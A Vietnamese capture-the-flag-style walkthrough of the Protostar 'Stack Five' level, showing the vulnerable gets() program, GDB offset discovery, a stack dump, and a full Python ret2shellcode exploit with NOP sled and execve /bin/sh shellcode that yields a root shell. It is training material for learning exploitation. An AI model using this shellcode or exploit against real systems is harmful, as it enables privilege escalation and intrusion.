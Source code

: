 # STACK FIVE

## About

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

  * At this point in time, it might be easier to use someone elses shellcode
  
  * If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
  
  * remove the int3s once your shellcode is done.

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Solutions

`STACK FIVE` là thử thách không có hàm win(), đọc giới thiệu ta có thể thấy thử thách muốn chúng ta tìm hiểu về Shellcode và học cách khai thác ret2shellcode.

Shellcode là gì ?

```
Shellcode còn được gọi là bytecode, tạm dịch là mã máy. Chúng ta đều biết mã máy là thứ ngôn ngữ duy nhất mà bộ vi xử lí có thể hiểu được. Tất cả các chương trình viết bằng bất kì ngôn ngữ nào đều phải được biên dịch sang mã máy trước khi máy tính có thể chạy được chương trình đó. Khác với các chương trình này, shellcode được thể hiện như một nhóm các mã máy, do đó máy tính có thể hiểu và thực thi trực tiếp shellcode mà không cần phải trải qua bất kì công đoạn biên dịch nào cả.
```

Với người mới tìm hiểu và chưa có kiến thức nhiều về mã máy, thử thách gợi ý sẽ tốt hơn khi tại thời điểm này sử dụng `shellcode` của ai đó.

Tôi lấy nguồn từ trên mạng: <https://www.exploit-db.com/exploits/43716>

```
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Tiếp theo là tìm độ dài chuỗi có thể ghi đè eip.

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4 + "H" * 4' > txt
root@protostar:/opt/protostar/bin# gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) r < txt
Starting program: /opt/protostar/bin/stack5 < txt

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()       <-- EEEE Tiếp tục là 76
(gdb)
```
Vậy payload của chúng ta bây giờ sẽ trông như này:

`payload = "A" * 76 + return address + "\x90" * 100 + shellcode`

Các bạn nên đọc link tài liệu ở phần Documents để hiểu rõ hơn về `shellcode` và `"\x90" NOPs`.

Stack sẽ trông như sau khi bị ghi đè (Bố cục địa chỉ có thể khác trên máy bạn):

```
(gdb) x/100wx $esp
0xbffffc10:     0xbffffc20      0xb7ec6165      0xbffffc28      0xb7eada75
0xbffffc20:     0x41414141      0x41414141      0x41414141      0x41414141     <-- payload bắt đầu từ 0x41414141.
0xbffffc30:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc40:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc60:     0x41414141      0x41414141      0x41414141      0xxxxxxxxx     <-- Vị trí của Return address
0xbffffc70:     0x90909090      0x90909090      0x90909090      0x90909090         Ở đây được tính toán = 0xbffffc6c + 0x50 = 0xbffffcbc để trả về vào giữa dãy NOPs.
0xbffffc80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffc90:     0x90909090      0x90909090      0x90909090      0x90909090     <-- sau ret sẽ là chuỗi '\x90' vì sẽ có sự biến động khi chạy và debug, 
0xbffffca0:     0x90909090      0x90909090      0x90909090      0x90909090         nên sẽ không thể tính chính xác vị trí của shellcode mà 
0xbffffcb0:     0x90909090      0x90909090      0x90909090      0x90909090         phải ước lượng và trượt vào nó qua NOPs để đến shell.
0xbffffcc0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcd0:     0x90909090      0x50c031cc      0x732f2f68      0x622f6868     <-- Shellcode start: 0xbffffcd4,
0xbffffce0:     0xe3896e69      0xc289c189      0x80cd0bb0      0xcd40c031         sau chuỗi NOPs sẽ là shellcode do hệ thống
0xbffffcf0:     0x08040080      0x00000001      0xbffffd14      0x080483f0         sẽ bỏ qua NOPs và tiếp tục thực thi.
0xbffffd00:     0x080483e0      0xb7ff1040      0xbffffd0c      0xb7fff8f8
0xbffffd10:     0x00000001      0xbffffe20      0x00000000      0xbffffe3a
0xbffffd20:     0xbffffe4a      0xbffffe5e      0xbffffe80      0xbffffe93
0xbffffd30:     0xbffffe9d      0xbffffea9      0xbffffeeb      0xbffffeff
0xbffffd40:     0xbfffff0e      0xbfffff25      0xbfffff36      0xbfffff3f
0xbffffd50:     0xbfffff8c      0xbfffff97      0xbfffff9f      0xbfffffac
0xbffffd60:     0x00000000      0x00000020      0xb7fe2414      0x00000021
0xbffffd70:     0xb7fe2000      0x00000010      0x0f8bfbff      0x00000006
0xbffffd80:     0x00001000      0x00000011      0x00000064      0x00000003
0xbffffd90:     0x08048034      0x00000004      0x00000020      0x00000005
```
Kết quả dừng trước int3 '\xcc' -> bỏ int3 thì shellcode được thực thi.

```
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffffcd5 in ?? ()
(gdb)
```
Từ bài này chúng ta sẽ bắt đầu viết file payload exp.py 

File exp.py

``` 
import struct
sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x31\xc9\xb0\x0b\xcd\x80\x31\xdb\xb0\x01\xcd\x80"
pd = "A" * 76
nop = "\x90" * 100
retadd = struct.pack("I", 0xbffffcbc)
payload = pd + retadd + nop + sc
print payload
```

Bước khai thác cuối cùng

```exp.py
root@protostar:/opt/protostar/bin$ $(python exp.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami 
root
ls
final0	final2	 format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1	format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
```

## Documents

<https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html>

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>


